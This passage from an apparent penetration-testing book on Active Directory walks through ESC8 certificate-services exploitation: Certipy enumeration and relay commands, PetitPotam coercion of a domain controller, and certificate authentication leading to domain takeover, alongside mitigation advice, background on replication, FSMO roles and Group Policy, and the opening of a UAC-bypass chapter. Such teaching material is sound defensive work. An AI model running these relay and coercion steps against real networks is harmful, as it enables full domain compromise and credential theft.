    \item \textbf{Vigilant Monitoring and Auditing:} Continuous monitoring and auditing practices are necessary to detect and respond to suspicious activities immediately. Monitoring user authentication, access attempts, and changes within the trust environment can provide early indications of potential security threats. The application of robust audit policies ensures that any deviations from normal behavior are identified and addressed in a timely manner.
\end{enumerate}
By adhering to these security tips, administrators can strengthen the resilience of Active Directory trusts, fortifying the overall security posture, and minimizing the risk of unauthorized access or compromise within the trust relationships.

\section{MITRE ATT\&CK} 
In the world of cybersecurity, it is vital to grasp threat actors exploit trusted relationships. MITRE ATT\&CK™ is a helpful tool for navigating this space. Trusted Relationship Attacks involve threat actors taking advantage of established trust to compromise security. To protect against such threats, organizations need to look at real-world examples, understand how to detect these attacks, and have effective ways to stop them.

\textbf{Real-World Examples:} Think about instances where attackers used trust to breach security, such as the Target attack. They entered using credentials from a trusted partner. Learning from such cases helps us prepare for similar situations.

\textbf{Detection Methods:} To catch trusting relationship attacks, we need to watch for strange behaviors. This includes things like unexpected movements between connected systems, unusual access patterns, or sudden changes in trust settings. Using smart tools and keeping an eye on things helps us spot suspicious activities early.

\textbf{Mitigation Strategies:} Stopping trust relationship attacks involves being proactive and responsive. We can limit damage by giving users only the access they really need. Regularly checking and updating trust settings, using strong authentication, and educating people about security all help defend against these attacks.

Understanding MITRE ATT\&CK™ gives us a structured way to identify potential attacks and tactics. By aligning our strategies with this framework, we can be better prepared to defend against trust relationship attacks.

 Although trust relationships are necessary for efficient network management, they come with inherent security risks. Organizations must actively manage and protect these relationships by adopting best practices. This includes regular assessments, implementing the least privilege principle, monitoring trust-related activities, and ensuring that systems are updated and patched.

Keeping vigilant against evolving threats, staying informed and conducting employee training contribute to building a resilient network infrastructure that can withstand dynamic cybersecurity challenges.

 
 




\chapter{Escalation 8: Exploiting Active Directory Certificate Services (AD CS) Through Elevation of Privilege Vulnerability}

In past security engagements, it became common for my team and I to find ourselves collectively exploiting common Active Directory Certificate Services (AD CS) leveraging a certain vulnerability that allowed us to privilege escalate the breached account we were using. In doing so, this allowed us to escalate the privileges to Domain Admin. This vulnerability typically evades detection by standard vulnerability scanners, making it a pervasive network equivalent to an Achilles heel.

Additionally, this vulnerability cannot be fixed via a vendor patch, but instead prevention requires proper configuration of AD CS.

As defensive and offensive security experts, your aim is to proactively help the customer remediate internal and external network vulnerabilities before bad actors discover them. AD CS is a subject that frequently warrants a deep dive with your customers, answering the questions \textit{"What is AD CS?" "What are the problematic vulnerabilities associated with AD CS?"} and \textit{"How do I prevent AD CS vulnerabilities?"}

\section{An Overview of Active Directory Certificate Services (AD CS)}
AD CS is a Windows Server role that is often found within an Active Directory environment. It is used to issue and manage Public Key Infrastructure (PKI) certificates, which are used in secret communications and authentication processes. If misconfigured, some of the settings of AD CS are highly exploitable, leading to an escalation of administrative privileges within a domain.

There are many different escalation attacks, or ESCs, which are identified by their number (e.g., ESC8). The two most common vulnerabilities in ESC that are often found during assessments are ESC1 and ESC8. In both instances, exploiting these vulnerabilities requires first having a foothold in the environment as opposed to the administrator level. This means leveraging a simple user will do, including any domain user across various roles within the organization (accounting, HR, sales, etc.). Anybody with domain credentials can carry out this attack, which is why it is so prevalent in terms of success.

\importantbox{\textbf{A Look at ESC8}
The risk associated with this vulnerability is that it is a relatively easy way to escalate privileges, but it is also one that a typical vulnerability scanner would not pick up. That is cause for alarm, because the potential negative outcomes-compromised customer data, compromised business data, ransomware-are quite dire.

ESC8 takes advantage of an AD enterprise certificate authority (CA) web enrollment feature. If enabled, this feature allows a user to request a certificate template via the HTTP/S web interface, which can also accept NTLM authentications. This enables an attacker to perform an NTLM relay attack in which the relay is directed to the web interface. When successful, the CA will issue a certificate for the relayed user, which the attacker can then use to authenticate to the targeted domain.}

\subsection{ESC8 Walkthrough}
Remediating this vulnerability involves attention to configuration. Let us walk through the vulnerability of ESC8, what to look for that makes it vulnerable, and how to remediate the weakness.

The typical attack chain works as follows: first, an attacker must verify that the AD CS infrastructure exists in the target environment. The attacker will need the domain user's credentials before arriving at this point. There are a variety of methods, such as password spraying attacks or broadcast message spoofing attacks, that could be used to obtain these credentials. These attacks are covered in their prospective chapters, so this section will be more of a way to showcase the ways to discover AD CS including any potential associated vulnerabilities using tools like \textbf{Certipy} and target a Domain Controller (DC) with Certipy's \texttt{find} module.

\begin{notebox}
\begin{minted}{bash}
$ certipy find -u 'khal.drogo' -p 'horse' -dc -ip 192.168.56.12
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 38 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 16 enabled certification templates
[*] Trying to get CA configuration for 'ESSOS-CA' via CSRA
[*] Got CA configuration for 'ESSOS-CA'
[*] Saved to BloodHound data to '20251203214932_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20251203214932_Certipy.txt'
[*] Saved JSON output to '20251203214932_Certipy.json'
\end{minted}
\end{notebox}

Certipy returns the results of all certificate authorities and certificate templates it was able to find in the target environment.

\begin{notebox}
\begin{minted}{bash}
Certificate Authorities
#
CA Name : ESSOS-CA
DNS Name : braavos.essos.local Certificate Subject : CN = ESSOS-CA, DC = essos, DC = local certificate serial number : 255CC781A3C4E98C41EEDEDBS0CA1031F Certificate Validity Start : 2025-12-04 03:38:15:00:00
Certificate Validity End : 2029-12-04 03:48:14:00:00
Web Enrollment : Enabled
User-SPecified SAN : Enabled
Request Disposition : Issue Enforce Encryption for Requests : Enabled
Permissions
    Owner                               : ESSOS.LOCAL\Administrators
    Access Rights
        ManageCertifications            : ESSOS.LOCAL\Administrators
                                          ESSOS.LOCAL\Domain Admins
                                          ESSOS.LOCAL\Enterprise Admins
        ManagedCA                       : ESSOS.LOCAL\Administrators
                                          ESSOS.LOCAL\Domain Admins
                                          ESSOS.LOCAL\Enterprise Admins
        Enroll                          : ESSOS.LOCAL\Authenticated Users
[1] Vulnerabilities
    ESC6                                : Enrollees can specify SAN and Request Disposition is set to Issue. Does not work after May 2026
    ESC8                                : Web Enrollment is enabled and Request Disposition is set to Issue
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 38 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 16 enabled certification templates
[*] Trying to get CA configuration for 'ESSOS-CA' via CSRA
[*] Got CA configuration for 'ESSOS-CA'
[*] Saved to BloodHound data to '20251203214932_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20251203214932_Certipy.txt'
[*] Saved JSON output to '20251203214932_Certipy.json'
\end{minted}
\end{notebox}


\chapter{Active Directory Certificate Services (AD CS) Misconfiguration Exploits}
Active Directory Certificate Services (ADCS) is a server role that allows a corporation to build a public-key infrastructure. This allows the organization to provide public key cryptography, digital certificates, and digital signatures capabilities to the internal domain.

Although using ADCS can provide a company with valuable capabilities on their network, a misconfigured ADCS server could allow an attacker to gain additional unauthorized access to the domain. This blog outlines exploitation techniques for vulnerable ADCS misconfigurations that we see in the field.

Tools we will be using alongside Certipy: A great tool for exploiting several ADCS misconfigurations.
\textbf{PetitPotam}: A tool that coerces Windows hosts to authenticate to other machines.
\textbf{Secretsdump} (a Python script included in Impacket): A tool that dumps SAM and LSA secrets using methods such as pass-the-hash. It can also be used to dump all the password hashes for the domain from the domain controller.
\textbf{CrackMapExec}: A multi-faceted tool that can dump user credentials and spray credentials across the network simultaneously to access more systems.

\section{Exploit 1: AD CS Web Enrollment}
If an AD CS Certificate Authority (CA) has Web Enrollment enabled, an attacker can perform a relay attack against the CA with the intent of escalating privileges within the domain, or doing other nefarious acts. We can use Certipy to find ADCS Certificate Authority servers using the \verb|find| command of the tool.
\importantbox{\textbf{Note:} The attacker will need access to the domain, but the credentials of a simple authenticated user are all that is needed to perform this attack.}

\begin{notebox}
\begin{minted}
certipy find -dc-ip DC IP Address} -u {User} -p {Password}
\end{minted}
\end{notebox}

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy2.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

First, while setting up AD CS in a test environment, we also set up a Certificate Authority (CA) to use for this testing. Certipy's \texttt{find} command also has a \textit{vulnerable} flag that will only show misconfigurations within AD CS.
\begin{notebox}
\begin{minted}
certipy find -dc-ip {<DC_IP_ADDRESS} -u {<USER>} -p {<PASSWORD>}
\end{minted}
\end{notebox}
\textbf{Example:} \verb|certipy find -dc-ip 192.168.1.10 -u khaldrogo -p Dr0G0Kh@l2025! -vulnerable|
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy3.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
The output of the text file lists the misconfigurations found by Certipy. While setting up my lab environment, I checked the box for Web Enrollment. Here, we see that the default configuration is vulnerable to the ESC8 attack:
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy4.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

\section{Exploiting a Certificate Authority Relay Vulnerability Using Certipy and PetitPotam}
This attack chain targets a vulnerable Active Directory Certificate Services (AD CS) setup. It abuses misconfigurations in how certificates are issued and how authentication can be coerced.

\subsection{Overview of the Attack}
To exploit the vulnerability, we use two key tools:
\begin{itemize}
    \item \textbf{Certipy} - For relaying authentication attempts to a Certificate Authority (CA).
    \item \textbf{PetitPotam} - To force a domain controller to authenticate to us.
\end{itemize}

Once the DC authenticates to our relay server, we can impersonate it and request a valid certificate for the DC account. With this certificate, we gain full access to the domain, including the ability to impersonate any user or machine - even Domain Admins.

\subsection{Step-by-Step Breakdown}
\section{Step 1: Setup a Relay with Certipy to a Certificate Authority (CA)}
In this stage, you configure Certipy to act as a relay server that will intercept NTLM authentication attempts and then forward them to a misconfigured or vulnerable Active Directory Certificate Services (AD CS) instance. The ultimate goal is to obtain a certificate for a high-privilege account (like a Domain Controller), which can then be used for Kerberos authentication and full domain access.

\subsubsection{How This Pre-Attack Stage Works}
When a victim (e.g., a Domain Controller) is coerced into authenticating over NTLM (via attacks like \textbf{PetitPotam}), its credentials (NTLM hashes) are sent to the attacker's system. Certipy listens for these requests and relays them back to the CA-but not just any CA: one that supports NTLM authentication and has a misconfigured template, such as \verb|DomainController.|

By doing this, Certipy requests a certificate on behalf of the DC, using the relayed NTLM authentication. If successful, the attacker receives a valid certificate that can be used to impersonate the Domain Controller via Kerberos (PKINIT).

Use the following command to start the relay setup process:
\begin{notebox}
\begin{minted}{bash}
    certipy relay -ca <CA_IP_OR_HOSTNAME> -template DomainController
\end{minted}
\end{notebox}
\subsubsection{Explanation of Parameters}
\begin{itemize}
    \item \verb|certipy relay:| Tells Certipy to run in relay mode, listening for inbound NTLM authentication attempts.
    \item \verb|<CA_IP_OR_HOSTNAME:>| This is the target CA server (IP or hostname) to which NTLM authentication will be forwarded.
    \begin{itemize}
        \item The CA must be accessible and have at least one template vulnerable to abuse (such as allowing machine accounts to request authentication certificates).
    \end{itemize}
    \item \verb|-template DomainController:|
    \begin{itemize}
        \item This specifies the certificate template to request. It is crucial because the template allows certificate issuance for domain controller accounts, which grants high privileges. In other words, it specifies the certificate template to use during the relay.
        \item The \verb|DomainController| template is often configured to allow machine accounts to request certificates that support:
        \begin{itemize}
            \item \texttt{Client Authentication}
            \item \texttt{Smartcard Logon}
        \end{itemize}
    \item These certificate usages are critical because they enable Kerberos PKINIT authentication-effectively allowing the attacker to impersonate the DC.
    \end{itemize}
\end{itemize}

\begin{notebox}
    \textbf{Why This Works}
    The Active Directory Certificate Services (AD CS) ecosystem can be misconfigured in several ways: \begin{itemize}
        \item It trusts NTLM for certificate enrollment (instead of requiring Kerberos or mutual authentication).
        \item It allows machine accounts (like \texttt{DC01\$}) to request certificates through vulnerable templates.
        \item Templates like \texttt{DomainController}, if not properly restricted, can be requested using only NTLM credentials.
    \end{itemize}
\end{notebox}
This creates an ideal situation for NTLM Relaying. Certipy takes advantage of this by:
1. Capturing an NTLM authentication from the victim (coerced using PetitPotam or similar).
2. Relaying it to the CA.
3. Requesting a certificate using the \texttt{DomainController} template.
4. Receiving a certificate that allows Kerberos authentication as the Domain Controller.

\subsection{Importance of the \verb|DomainController| Template}

Certificates issued from this template typically contain the following information:
\begin{itemize}
    \item \verb|ClientAuthentication| Enhanced Key Usage (EKU)
    \item \verb|SmartcardLogon| EKU
\end{itemize}
These attributes are \textbf{sufficient to perform PKINIT} (Kerberos authentication using PKI). With this certificate, the attacker can request a \textbf{ ticket grant Ticket (TGT)} for the domain controller's account, effectively \textbf{ becoming the DC} on the network.

\begin{warningbox}
\subsubsection{✅ Prerequisites \& Considerations}
Before running this command, ensure:
\begin{itemize}
    \item You have PetitPotam or another NTLM coercion technique working to force the DC to authenticate to you.
    \item The Certificate Authority is accessible and allows NTLM-based requests.
    \item The template (\verb|DomainController| in this case) is: \begin{itemize}
        \item Enabled on the CA
        \item Does not restrict Subject Alternative Names (SAN)
        \item Does not enforce stricter client authentication (e.g., Kerberos only)
    \end{itemize}
\end{itemize}
\end{warningbox}

\importantbox{\subsubsection{Why This Matters}
The template \verb|DomainController| often issues certificates with \verb|ClientAuthentication| and Smart Card Logon usage. These can be abused for \textit{Kerberos PKINIT authentication}, giving full access to the DC account.}

\section{Step 2: Coerce Authentication From The Domain Controller}
Next, we need the domain controller to authenticate and connect to us-the relay server. For this, we will use an attack utility known as \textbf{PetitPotam.}

But, first, what does the PetitPotam tool exactly do? Let us find out!

\begin{notebox}
\textbf{PetitPotam} is an NTLM relay attack that exploits a vulnerability in the \textbf{\textit{Microsoft Encrypted File System Remote Protocol (MS-EFSRPC)}}. Using a specific function of this protocol, an attacker can force a Windows server, such as a domain controller, to authenticate against a malicious server without any prior credentials. This allows the attacker to steal the authentication and take over the entire domain.

\informationbox{\textbf{Note:} The "special function" as mentioned above is a function exploited by the PetitPotam utility, the property \texttt{EfsRpcOpenFileRaw.}

\verb|EfsRpcOpenFileRaw| is a legitimate RPC (Remote Procedure Call) function that is used by the Windows \textbf{\textit{Encrypted File System (EFS).}} The EFS allows remote systems to access and work with encrypted files. In normal operations, this process unfolds in several steps, as described in further detail below.
\end{notebox}
  
\section*{PetitPotam Attack Sequence: EFSRPC Abuse Leading to Domain Compromise}

\subsection*{Initial Foothold and Targeting}
An attacker with network access identifies a target server, often a domain controller, that is running the Encrypting File System Remote Protocol (EFSRPC) and sends a malicious request. Keep in mind that while EFSRPC is a legitimate protocol, it can be exploited in coercion attacks such as PetitPotam and that the Encrypting File System Remote Protocol (EFSRPC) is designed to allow remote management of encrypted files; however, attackers can exploit this protocol to trigger authentication requests from the target, which can then be relayed in NTLM relay attacks, like those used in PetitPotam.

\subsection*{Determining if EFSRPC is Accessible}
To assess whether a server is running or exposing the EFSRPC interface, defenders can take several steps:

Check if the \verb | lsass.exe| process exposes EFSRPC over named pipes. EFSRPC runs on the pipes named \verb|\pipe\lsarpc| or \verb|\\pipe\efsrpc| named pipes.

Use tools like \textbf{Sysinternals'} \texttt{PipeList} or PowerShell to view named pipes. You can check for these using the following:
    \begin{verbatim}
Get-ChildItem \\.\pipe\
    \end{verbatim}
\textbf{Or remotely:}
    \begin{verbatim}
[System.IO.Directory]::GetFiles("\\TARGET_SERVER\pipe\")
    \end{verbatim}
Look for named pipes such as \verb|efsrpc| or \verb|lsarpc|.
\textbf{Use PowerShell to check open named pipes (if permissions allow):}
    \begin{itemize}
        \item Use this PowerShell script (from public repositories like PowerView or custom scripts) to enumerate remote named pipes:\verb|$server = "TARGET_SERVER" [System.IO.Directory]::GetFiles("\\$server\pipe\") |
    \end{itemize}

\textbf{Check the registry or services:}
\begin{itemize} 
    \begin{itemize}
        \item  EFS-related services such as \verb|EFS| (Encrypting File System) may be running on the server.
    \end{itemize}
    \begin{itemize}
        \item  Check via: \verb|Get-Service -Name EFS | \begin{itemize}
            \item If running and set to auto/startup, the server may support EFSRPC.
        \end{itemize}
    \end{itemize}
\end{itemize}
 
Look for \texttt{efsrpc} or \texttt{lsarpc} among the results and search for RPC interfaces using Impacket's \texttt{rpcdump.py}
    \begin{verbatim}
rpcdump.py @<target-ip>
    \end{verbatim}
Look for UUID \texttt{DF1941C5-FE89-4E79-BF10-463657ACF44D}, which identifies the EFSRPC interface.

\textbf{Check for EFS service status:}
    \begin{verbatim}
Get-Service -Name EFS
    \end{verbatim}
If the \texttt{EFS} service is running or is set to start automatically, the system may expose EFSRPC.

\subsection{Monitor Windows Event Logs:}  Event ID 541 in the \texttt{Microsoft-Windows-CertificateServicesClient-Lifecycle-System} log is associated with EFSRPC calls. Unexpected occurrences of this event may signal attempts at coercion.

\subsection*{Triggering NTLM Authentication}
Using a crafted EFSRPC request, the attacker coerces the target server into initiating an outbound NTLM authentication. This is typically done through a forced RPC call to \verb|\\pipe\efsrpc|, prompting the Domain Controller to authenticate to an attacker-controlled machine.

\subsection*{Intercepting and Relaying Credentials}
The attacker's server captures the NTLM authentication challenge-response and immediately relays it to a vulnerable service, most often the AD CS Web Enrollment interface, which may accept NTLM authentication without requiring additional verification (e.g. due to misconfiguration like ESC8).

\subsection*{Abusing AD CS to Obtain a Certificate}
Upon receiving the relayed NTLM credentials, AD CS issues an authentication certificate to the attacker. This certificate acts as a valid identity credential for Kerberos authentication.

\subsection*{Impersonating the Domain Controller}
With the certificate, the attacker can request a Kerberos Ticket Granting Ticket (TGT). The TGT allows them to impersonate the targeted Domain Controller and act as a fully trusted authority within the Active Directory environment.

\subsection*{Full Domain Compromise}
At this stage, the attacker effectively controls the Windows domain. They can issue service tickets, impersonate any user, escalate privileges, and move laterally with little resistance - achieved by exploiting certificate-based authentication and NTLM relay mechanisms.
    \begin{warningbox}
        \textbf{Why PetitPotam is Dangerous}
        \begin{itemize}
            \item \textbf{Unauthenticated access:} Unlike many other NTLM relay attacks, PetitPotam does not require the attacker to have any pre-existing credentials. All that is needed is simple network access.
            \item \textbf{Exploits AD CS:} When combined with misconfigured Active Directory Certificate Services, the attack becomes extremely dangerous. By relaying the stolen authentication to AD CS, an attacker can issue themselves a domain controller certificate, leading to a complete domain takeover.
            \item \textbf{Affects many versions of Windows:} The attack has been shown to affect various versions of Windows, including Windows Server 2008 to 2022, if not properly mitigated.
        \end{itemize}
    \end{warningbox}
    \subsubsection{How to Mitigate PetitPotam}
    To protect against PetitPotam and other NTLM relay attacks, Microsoft and security researchers recommend several mitigation strategies:
    \begin{itemize}
        \item \textbf{Disable NTLM}
        If at all feasible, disable NTLM authentication completely on all domain controllers and AD CS servers entirely and use the more secure Kerberos protocol with pre-authentication enabled.
        \item \textbf{Enable EPA and Signing}
        On services the must use NTLM, enable Extended Protection for Authentication (EPA) and configure signing features like SMB signing. This helps prevent relay attacks by binding authentication to a specific accountable server.
        \textbf{Configure AD CS Properly}
        Ensure that your AD CS servers are configured with protections against NTLM relay attacks as detailed in Microsoft's security advisory \textit{KB5005413.}
        \textbf{Use Group Policy Objects (GPOs)}
        Restrict NTLM traffic to your AD CS servers using Group Policy Objects (GPOs) to control incoming NTLM traffic.
    \end{itemize}

To get the domain controller to authenticate and connect to our relay server, issue the following command using PetitPotam:
\begin{notebox}
\begin{minted}{python}
    petitpotam.py -u 'dummy' -p 'dummy' - d <DOMAIN> <DC_IP> <YOUR_IP>
\end{minted}
\end{notebox}
\begin{itemize}
    \item \verb|<DC_IP>:| IP of the domain controller you are targeting.
    \item \verb|<YOUR_IP>:| IP of your relay server running Certipy.
\end{itemize}
PetitPotam exploits MS-EFSRPC to trigger an SMB authentication attempt from the DC to your attacking machine. When this happens, Certipy catches the NTLM authentication and relays it as a middle-man to the CA server. What exactly is happening here? Let us break down this process further:
\begin{enumerate}
    \item DC sends an SMB authentication attempt (NTLM) to our relay server.
    \item Certipy captures that NTLM handshake.
    \item Certipy then forwards it to the CA as the intermediary as if it came from the DC itself.
    \item The CA, trusting the DC, issues a certificate.
    \item Certipy receives the certificate for the DC machine account.
\end{enumerate}

\section{Step 3: Use the Certificate to Assess the Domain}
With a valid certificate for the domain controllers' machine account, you can now \textbf{authenticate to Active Directory as the DC}; albeit via impersonation, but nonetheless successful. Note, for example, the command shown below:
\begin{notebox}
\begin{minted}{bash}
    certipy auth -pfx <CERTIFICATE.pfx>
\end{minted}
\end{notebox}
The \verb|certipy auth -pfx <CERTIFICATE.pfx>| command is used to authenticate to an Active Directory domain using a client certificate stored in a \textit{Personal Information Exchange (\texttt{.pfx)}} file. This is often used by penetration and ethical hackers to exploit AD CS vulnerabilities, which, as we are beginning to understand, aid and allow an attacker to obtain a certificate that ultimately grants them unauthorized access via DC hijack and impersonation.
A detailed breakdown of what this command is actually doing is provided below.
\begin{itemize}
    \item \texttt{certipy:} Calls the Certipy tool, which is designed to find and exploit misconfigurations in AD CS.
    \item \texttt{auth:} Specifies the sub-command for authentication.
    \item \texttt{-pfx <CERTIFICATE.pfx>:} Provides the path to a \texttt{.pfx} file, which contains both the public and the associated private key needed for authentication.
\end{itemize}
\subsection{Replication}
Windows networks rely heavily on Active Directory, so availability and performance are critical. To ensure redundancy and load balancing, the AD database is stored on multiple domain controllers. If one server fails, clients can still connect to another DC that holds the same data. Adding a server to an AD domain automatically makes it a replication partner.

Replication itself is complex, as all domain controllers must stay in sync. Active Directory uses multi-master replication, which means updates can be made on any DC rather than a single master. All DCs are peers. Each server tracks which updates it has received from other servers and requests only missing changes if needed. This is managed using \textbf{Update Sequence Numbers (USNs)} - each change gets a unique USN so replication partners know what data are current.

\subsection{Flexible Single Master Operations (FSMO)}
Although most operations are multimaster, some functions must be handled by a single domain controller at a time to avoid conflicts. These special responsibilities are called \textbf{FSMO roles (Flexible Single Master Operations)}. Roles can be moved between DCs if needed. There are five FSMO roles:

\begin{itemize}
\textbf{\item Schema Master}
Maintains and updates the AD schema (the definitions of object classes and attributes). Only one per forest exists.
\item \textbf{Domain Naming Master}
Manages the addition and removal of domains in the forest. Only one per forest exists.
\item \textbf{RID Master (Relative Identifier Master)}
Assigns unique RIDs that combine with the domain SID to form unique object SIDs. 

Also responsible for handling object moves between domains. One per domain.
\item \textbf{PDC Emulator}
 Provides backward compatibility with NT 4.0, acts as the forest’s root time server, handles password changes and account lockouts, and is the authoritative DC for Group Policy updates. One per domain.
\item \textbf{Infrastructure Master}
Updates references to objects in other domains (such as group memberships when users move). One per domain.
\end{itemize}

\subsection{Security}
Active Directory includes several types of groups to simplify administration and manage access to resources. Groups differ by \textbf{scope} (where permissions apply) and by whether they are \textbf{default} (precreated) or custom.

\subsubsection{\textit{Default} \textit{Groups}}
When a domain is created, AD automatically generates default security groups such as \textit{Domain Admins} or \textit{Backup Operators}. These groups are assigned predefined rights; for example, members of \textit{Backup Operators} can perform backups of all DCs. Default groups are located in the containers \textit{Built-in} and \textit{Users}.

\begin{itemize}
\item The groups in \textit{Builtin} have a \textbf{Builtin Local} scope, which cannot be changed.
\item Groups in \textit{Users} may have \textbf{global} or \textbf{domain local} scope. They can be moved within the domain but not to other domains.
\end{itemize}

\subsubsection{\textit{Domain} \textit{Local Groups}}
 Used to manage permissions within a single domain. Membership can include:
\begin{itemize}
    \item Accounts, global groups, or universal groups from any domain
    \item Domain local groups from the same domain

Domain local groups are ideal for assigning resource permissions such as file shares or printers.
\end{itemize}

\subsubsection{\textit{Global Groups}}
Contain accounts and other global groups from the same domain. They can be assigned permissions in any domain in the forest, but membership is restricted to objects from their own domain. Global groups are often used for role-based access (e.g., grouping all HR users together). Changes replicate only within the domain, minimizing replication traffic.

\subsubsection{\textit{Universal Groups}}
Can contain accounts, global groups, or other universal groups from any domain in the forest. They can be granted permissions in any domain across the forest. Universal groups are typically used to consolidate access across domains, for example, by nesting global groups from multiple domains inside a universal group. Membership changes to nested global groups do not cause forest-wide replication.

\subsubsection{\textit{Group Policy}}
\textbf{Group Policy} is one of the most powerful features of Active Directory, giving administrators centralized control over user and computer environments. It is managed through the \textbf{Group Policy MMC snap-in}. Policies are applied to \textbf{sites, domains, or organizational units (OUs)} — not directly to groups.

Administrators can create multiple \textbf{Group Policy Objects (GPOs)} in a Group Policy Container and link them to the relevant site, domain or OU. Filtering is possible by removing the “Apply Group Policy” permissions for specific users or groups. Delegation allows managers to edit the settings of a GPO without giving them authority to create or rescope GPOs.

GPOs can also be disabled without deletion. Disabling applies only to the linked container and its children; If the GPO is linked elsewhere, it remains active in that scope.

\subsection{Software Deployment via Group Policy}
Group Policy integrates with \textbf{Windows Installer} and \textbf{Software Installation and Maintenance} to deploy, update, and remove software efficiently:

\begin{itemize}
    \item \textbf{Assigned Applications}
    \begin{itemize}
        \item If assigned to a \textit{user}, shortcuts appear on the desktop/start menu but installation occurs only when the program is first run.
        \item If assigned to a \textit{computer}, the application is installed at the next restart.
    \end{itemize}
    \item \textbf{Published Applications}
    \begin{itemize}
        \item Available to users through \textit{Add/Remove Programs} or by opening an associated file.
        \item Cannot be published to computers, don’t appear on the desktop/start menu, and do not support self-repair.
    \end{itemize}
    \item \textbf{File Types}
    \begin{itemize}
        \item \textbf{MSI files}: Required for assigned applications and support self-repair.
        \item \textbf{ZAP files}: Simple text-based install scripts that can be used for published apps.        
        \item They don’t support self-repair, elevated privileges, or silent installation.
    \end{itemize}
\end{itemize}

Administrators can manage upgrades by specifying mandatory replacements or by re-deploying a GPO with updated service packs or patches.
\chapter{Bypassing User Account Control (UAC)}
This section discusses the methods and implications of bypassing User Account Control (UAC) in Windows systems, and aims to showcase the balance between user convenience and experience along with security measures and balanced defensive security protections.
\begin{itemize}
    \item Explanation of the challenges in managing administrative privileges and the necessity of UAC to mitigate risks
    \item Demonstration of an attack scenario where a malware trick elevates privileges to access sensitive information.
    \item Showing the importance of having administrative privileges for successful exploitation of a system
\end{itemize}

This section discusses how User Access Control (UAC) functions to manage application privileges in Windows and explores methods attackers might use to bypass these security measures.
\begin{itemize}
    \item Introduction to UAC and its purpose in managing application privileges
    \item Explanation of how UAC operates by running applications in a low privilege context unless elevated permissions are explicitly granted
    \item Discussion on how applications can request higher privileges through UAC prompts, allowing them to run with admin rights
    \item Demonstration of how malware can inherit elevated privileges when executed from an admin context, highlighting potential security risks
    \item Mention of various techniques available to bypass UAC, indicating that there are multiple methods attackers can exploit

